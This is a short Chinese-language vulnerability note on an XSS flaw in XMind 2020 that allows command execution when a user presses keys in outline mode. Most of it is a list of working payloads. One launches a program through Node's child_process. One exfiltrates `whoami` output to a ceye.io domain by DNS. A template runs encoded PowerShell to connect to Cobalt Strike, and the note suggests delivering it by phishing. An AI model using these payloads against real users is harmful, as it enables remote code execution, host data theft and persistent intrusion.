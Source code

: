 # XMind 2020 存在XSS导致命令执行漏洞
> XMind 2020存在XSS漏洞，攻击者在大纲模块下，可在主题中插入恶意代码，当用户按下键盘上的功能键时（例如shift、command、enter、control、ctrl等），即可触发漏洞。实战中，攻击者可通过钓鱼的方式，利用该XSS漏洞实现命令执行，例如可DNS带外传输主机信息或直接上线到CS/MSF等。
## 部分payload
简单弹窗&emsp;&emsp;`<img src=1 onerror=alert("1")>`<br>
弹计算器&emsp;&emsp;`<img src=# onerror="require('child_process').exec('calc.exe',null);">`<br>
DNS带外&emsp;&emsp;``<img src=x onerror="const exec = require('child_process').exec;exec('curl `whoami`.domain.ceye.io').stdout.on('data', function (data) {alert(data);})">``<br>
通过对powershell进行编码，然后替换payload上线CS<br>`<img src=x onerror="const exec = require('child_process').exec;exec('powershell（……）').stdout.on('data', function (data) {alert(data);})">`
